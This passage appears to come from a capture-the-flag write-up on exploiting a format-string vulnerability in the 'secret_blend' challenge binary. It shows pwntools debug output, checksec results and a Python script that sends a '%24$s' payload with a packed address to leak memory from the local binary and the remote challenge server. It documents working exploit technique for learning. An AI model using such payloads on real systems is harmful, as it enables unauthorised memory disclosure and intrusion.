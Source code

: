 Here's a detailed view of the remote's output when I send `%p`:

```bash
[+] Opening connection to chals1.apoorvctf.xyz on port 3003: Done
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
    00000000  57 65 6c 63  6f 6d 65 20  74 6f 20 4b  6f 67 61 72  │Welc│ome │to K│ogar│
    00000010  61 73 68 69  20 43 61 66  c3 a9 2e                  │ashi│ Caf│··.│
    0000001b
Welcome to Kogarashi Café.[DEBUG] Received 0x22 bytes:
    b'\r\n'
    b"Barista: 'What will you have?'\r\n"


$ %p
[DEBUG] Sent 0x3 bytes:
    b'%p\n'
[DEBUG] Received 0x4 bytes:
    b'%p\r\n'

[DEBUG] Received 0x9 bytes:
    b'0xa70\r\n'
    b'\r\n'


[*] Got EOF while reading in interactive
$  
```

In order to investigate this further I decided to use our control of the format string to attempt to inspect the binary on the remote.

This is a binary compiled without PIE and so we should expect the `\x7fELF` header to be present at the same address in both cases:

```bash
$ pwn checksec secret_blend 
[*] '/home/user/ctf/the_secret_blend/secret_blend'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here I'm reading bytes from the start of the binary locally and at the same address on the remote:

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./secret_blend", checksec=False)
context.binary = elf

sniff = elf.address

with elf.process() as p:
    p.readuntil(b"have?\'\n")
    p.send(b"%24$s|||" + p32(sniff) + b"\n")
    #p.readuntil(b"\n\n") # not required locally
    print(p.readline())

with remote("chals1.apoorvctf.xyz", 3003) as p:
    p.readuntil(b"have?\'\r\n")
    p.send(b"%24$s|||" + p32(sniff) + b"\r\n")
```